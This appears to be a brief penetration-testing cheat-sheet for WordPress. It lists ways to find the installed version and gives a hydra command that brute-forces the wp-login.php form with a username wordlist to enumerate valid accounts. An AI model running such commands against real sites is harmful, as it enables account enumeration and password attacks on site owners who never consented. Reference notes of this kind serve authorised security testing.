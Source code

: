 # Wordpress

# Find version

- /wp-links-opml.php
- In source code:

```
<meta name="generator" content="WordPress X.X.X" />

```

# Enumerate valid users

```
hydra -L /opt/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p voidpass target
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2
Fwp-admin%2F&testcookie=1:S=The password"

```
